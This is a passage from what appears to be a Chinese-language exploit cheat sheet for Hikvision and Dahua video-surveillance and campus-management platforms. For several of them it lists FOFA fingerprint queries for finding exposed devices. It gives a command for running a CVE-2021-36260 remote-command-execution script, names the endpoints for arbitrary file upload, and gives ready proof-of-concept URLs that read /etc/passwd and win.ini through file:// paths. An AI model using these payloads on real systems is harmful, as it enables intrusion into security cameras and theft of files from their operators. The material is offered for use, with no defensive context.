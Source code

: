 ##### 远程命令执行 CVE-2021-36260 ✅

```
python CVE-2021-36260.py --rhost 127.0.0.1 --rport 8081 --cmd "ls"
```

### 0x02 综合管理平台

#### 大华 智慧园区综合管理平台 

FOFA：

```
app="dahua-智慧园区综合管理平台"
```

##### user_save.action 任意文件上传 ✅

漏洞指纹：

```
POST /admin/user_save.action
```

```
POST /WPMS/getPublicKey
```

#### 大华 城市安防监控系统平台管理 

FOFA：

```
"attachment_downloadByUrlAtt.action"
```

##### attachment_downloadByUrlAtt.action 任意文件下载 ✅

poc：

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

#### HIKVISION iVMS-8700综合安防管理平台

FOFA：

```
icon_hash="-911494769"
```

##### 任意文件下载 ✅

验证POC，token 为 URL md5：

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

##### 任意文件上传 ✅
